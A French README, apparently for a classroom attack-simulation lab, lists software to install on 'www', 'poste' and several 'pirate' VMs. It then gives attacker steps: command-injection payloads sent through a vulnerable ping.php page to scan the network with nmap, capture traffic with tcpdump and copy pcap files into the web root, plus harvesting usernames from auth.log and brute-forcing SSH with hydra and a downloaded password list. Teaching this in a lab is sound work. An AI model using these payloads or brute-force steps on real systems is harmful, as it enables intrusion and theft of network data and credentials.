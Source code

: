 ## serveurs / VM :

### www : 
- à installer :  
`sudo apt-get update -y`  
`sudo apt-get install -y apache`  
`sudo apt-get install –y php7  ` 
- avec fichier :
    - ping.php 
    - logs.php
### poste :
- à installer :  
`sudo apt-get update -y`    
`sudo apt-get install -y iptables`  
`sudo apt-get install -y openssh-server`



#### pirate :
- À installer :  
`sudo apt-get update -y`    
`sudo apt-get install -y wireshark`  
`sudo apt-get install -y tcpdump`  
- Mais aussi il faut installer ces paquets :
    - ##### partie client FTP :
    `sudo apt-get install -y filezilla`  
    `sudo apt-get install -y ftp`  
    `sudo apt-get install -y sleuthkit`   
    
    - ##### partie client SSH :
    
    `sudo apt-get install -y ssh`  

#### Serveur ftp-pirate :
- À installer :  
`sudo apt-get update -y`    
`sudo apt-get install -y vsftpd` 

#### Serveur ssh-pirate :
- À installer :  
`sudo apt-get update -y`  
`sudo apt-get install -y openssh-server`


#### Serveur cc-pirate :
- À installer :  
`sudo apt-get update -y`  



### depuis www
A6 )

le pirate va sur la page $ip_www/ping.php

```php
; sudo history ; // historique des commandes

; sudo apt-get install -y nmap ; // installation avec yes

; sudo apt-get install tcpdump -y && sudo tcpdump --interface any -c 400  -w data.pcap ;  // s'arrete après 400 paquets

; ip a ; //note l'adresse réseau 192.168.0.56

: nmap -T4 -sP 192.168.0.0/24 | grep for ; // scanne le réseau local de www

// tu notes l'adresse IP qui est différente de www sauf Routeur

; sudo dpkg -l > res.txt && cat res.txt && rm -rf res.txt ; // listes des paquetages installés par rapport à l'indice A6
; sudo dpkg -s | grep "Package" ; // listes des paquetages installés par rapport à l'indice A6


; sudo dpkg -l | grep -i "tcpdump" ; //équiavlent de Wireshark en ligne de commandes s'il est installé alors des fichiers pcap seront générables


; sudo find / -name "*.pcap*" ; // recherche tous les fichiers .pcap lisible avec Wireshark du disque dur // noté les fichiers

 sudo tcpdump -h

-r file



sudo tcpdump -r /home/etudiant/data.pcap // affiche en ligne de commande l'ensemble de la capture réseau du fichier .pcap en gros wireshark juste en ligne de commande
 
//étape optionnelle




; sudo cp `sudo find / -name "*.pcap*"` /var/www/html/ ;


```

A7)

> [!WARNING]
> le pirate va sur la page $ip_www/ping.php
créer lorie sur poste de travail
sudo adduser lorie
rentrer le mot de passe
entrée à tout + y

avec un mot de passe dans la liste des 500 pires mot de passes
```php
; sudo cat auth.log ; // note le nom d'utilisateur du pc poste de travail
; sudo find / -name "auth.log" ; 

// filtrer sur le fichier pour avoir le nom d'utilisateur
; sudo cat auth.log | grep "postedetravail" | cut -f 4 -d ' ' | uniq ;
// bruteforce
; curl https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/500-worst-passwords.txt > 500-worst-passwords.txt ;
; hydra -l lorie -P 500-worst-passwords.txt $ip_postedetravail ssh ;





```
A8)






liens   :
A6 )
https://www.makeuseof.com/tcpdump-examples/#:~:text=%20The%20tcpdump%20Output%20Format%20%201%20Timestamp,9%20Window%20size%2010%20Packet%20length%20More%20


A7)
https://www.kali-linux.fr/hacking/tutohydrabruteforce